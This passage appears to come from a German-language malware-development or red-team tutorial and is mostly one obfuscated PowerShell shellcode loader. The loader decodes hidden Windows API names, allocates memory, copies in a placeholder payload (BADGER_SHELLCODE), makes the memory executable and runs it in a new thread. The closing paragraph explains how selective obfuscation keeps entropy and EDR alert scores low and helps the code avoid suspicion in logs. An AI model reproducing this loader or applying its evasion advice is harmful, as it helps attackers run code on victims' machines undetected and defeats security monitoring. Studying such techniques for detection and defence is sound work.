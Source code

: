 ```powershell
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $yhe4c)), (Get-TDef @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr].MakeByRefType()) ([UInt32])))).Invoke(0, 0, $vbuf, [IntPtr]0, 0, [ref](0)) | Out-Null
```

Sie werden vielleicht bemerken, dass einige Cmdlets und Funktionen in ihrem Originalzustand belassen werden… warum ist das so? Abhängig von Ihren Zielen möchten Sie möglicherweise eine Anwendung erstellen, die Reverse Engineers auch nach der Erkennung noch verwirren kann, ohne sofort verdächtig zu wirken. Wenn ein Malware-Entwickler alle Cmdlets und Funktionen obfuskiert, würde dies die Entropie sowohl in interpretierten als auch in kompilierten Sprachen erhöhen und zu höheren EDR-Alarmwerten führen. Es könnte auch dazu führen, dass ein interpretierter Codeausschnitt in Logs verdächtig erscheint, wenn er scheinbar zufällig oder stark obfuskiert ist.
